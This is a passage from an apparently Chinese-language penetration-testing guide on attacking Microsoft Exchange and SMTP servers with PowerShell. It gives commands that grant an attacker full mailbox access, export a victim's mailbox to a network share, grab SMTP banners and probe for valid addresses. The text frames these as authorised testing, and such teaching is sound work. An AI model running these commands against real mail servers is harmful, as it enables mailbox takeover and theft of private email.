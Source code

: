 ### 提权

在初步访问之后，攻击者可能会寻求在 Exchange 服务器中提升权限。这可能涉及修改邮箱权限、授予额外权限或控制管理员账户。PowerShell 可用于执行这些操作。此命令授予攻击者对受害者邮箱的完全访问权限：

```
 Add-MailboxPermission -User attac ker@snowca pcyber.com -AccessRights FullAccess -Identity vict im@snowcap cyber.com
```

### 利用已知漏洞

与任何软件一样，Exchange 服务器可能存在已知的漏洞。如果目标系统中存在这些漏洞，PowerShell 可以利用它们。例如，如果 Exchange 服务器中的已知漏洞有对应的 PowerShell 利用脚本，则可以执行该脚本：

### 数据外泄

攻击者可能会使用 PowerShell 从 Exchange 服务器中提取敏感数据。这可能包括导出邮件、联系人、附件和其他敏感信息。此命令将受害者邮箱的内容导出到网络共享上的 **个人存储表**（**PST**）文件：

```
 New-MailboxExportRequest -Mailbox vict im@snowcap cyber.com -FilePath "\\server\share\export.pst"
```

使用 PowerShell 进行渗透测试应当有详细的文档记录，所有操作都应该是可逆的。伦理渗透测试的主要目标是识别漏洞并帮助组织提高安全性，而不是造成伤害或损害。

总之，PowerShell 是渗透测试 Microsoft Exchange 服务器的有价值工具，特别是在枚举和利用阶段。然而，必须以负责任、道德和合法授权的方式进行此项工作。目标是识别和修复 Exchange 服务器中的安全弱点，以确保电子邮件服务的机密性、完整性和可用性。

# PowerShell 和 SMTP

对 SMTP 服务器进行渗透测试对于评估组织的邮件基础设施至关重要。PowerShell 可以作为一个有价值的工具，帮助安全专业人员识别漏洞并确保 SMTP 服务器的安全。在本文中，我们将探讨如何使用 PowerShell 对 SMTP 服务器进行渗透测试，重点在于枚举和利用。

## 使用 PowerShell 进行枚举

枚举是任何渗透测试的初始阶段，目的是收集目标 SMTP 服务器的信息。PowerShell 可以在这一阶段通过提取关于服务器配置的有价值细节来提供帮助。

### SMTP 横幅枚举

SMTP 横幅是一个有价值的信息，揭示了服务器的身份和软件版本。可以使用 PowerShell 的 **Test-NetConnection** cmdlet 来枚举 SMTP 横幅：

```
 Test-NetConnection -ComputerName mail.snowcapcyber.com -Port 25
```

该命令连接到 SMTP 服务器的 25 端口并获取横幅，通常包括版本信息。

### SMTP 用户枚举

在 SMTP 服务器上识别有效的电子邮件地址对于社会工程学和潜在的利用非常重要。可以使用 PowerShell 的 **Send-MailMessage** cmdlet 测试地址：

```
 Send-MailMessage -To "use r@snowcap cyber.com" -From "attacker@snowcapcyber.com" -SmtpServer mail.snowcapcyber.com
```
